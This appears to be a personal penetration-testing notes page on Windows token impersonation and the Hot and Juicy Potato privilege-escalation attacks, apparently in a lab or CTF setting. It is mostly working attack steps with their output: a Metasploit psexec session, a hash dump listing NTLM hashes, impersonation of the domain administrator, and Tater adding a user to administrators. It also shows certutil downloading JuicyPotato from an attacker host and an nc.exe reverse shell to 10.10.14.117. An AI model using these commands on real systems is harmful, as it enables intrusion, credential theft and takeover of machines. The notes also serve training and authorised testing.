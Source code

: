 # Token Impersonation - Potato attacks

## What is it

- Token are temp keys that give access to a system or network without credentials.

## How to

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots

## Potato Attacks

- These attacks requires the `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` to be enabled on the machine.

### Hot potato

- We can use [Tater](https://github.com/Kevin-Robertson/Tater)
- `powershell.exe -nop -ep bypass`
- `Import-Module .\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
- Your user should be in the administrators group `net localgroup administrators` to check

- See [here](../writeups/HTB-Jeeves.md) an example of a potato attack

### Juicy potato

#### Enumeration after initial shell with MSSQL

- Say we have a shell on an mssql instance `mssqlclient.py sql_dev@IP-ADD -windows-auth`
- We can enable command shell using `enable_xp_cmdshell`
- And then we will be able to type every command we need this way: `xp_cmdshell whoami /priv`
- For juicy potato we need to check if we have `SeImpersonatePrivilege` enabled  
![image](https://user-images.githubusercontent.com/96747355/163688651-8f07b5f6-4b0d-4ece-bb80-8249770d3b29.png)  
- We do!

#### Exploitation

- Let's get JuicyPotato binary in our attacking machine `wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`
- Let's serve the file to our target using python http server `python3 -m http.server 80`
- Let's take it in our shell using certutil `xp_cmdshell certutil.exe -urlcache -f http://10.10.14.117/JuicyPotato.exe C:\Tools\JuicyPotato.exe`
- Let's get an admin shell `xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.117 8443 -e cmd.exe" -t *` where -l is the COM server listening port, -p is the program to launch (cmd.exe), -a is the argument passed to cmd.exe, and -t is the createprocess call. We are trying both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.
- And we should have an authority system shell  
![image](https://user-images.githubusercontent.com/96747355/163689119-b9682c58-c8cc-421b-9d62-1e2d7451f525.png)  

## Resources

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %} Rotten Potato - Foxglove Security {% endembed %}  
{% embed url="https://github.com/ohpe/juicy-potato" %} Juicy Potato {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners" %} TCM Security - Windows privilege escalation {% endembed %}  
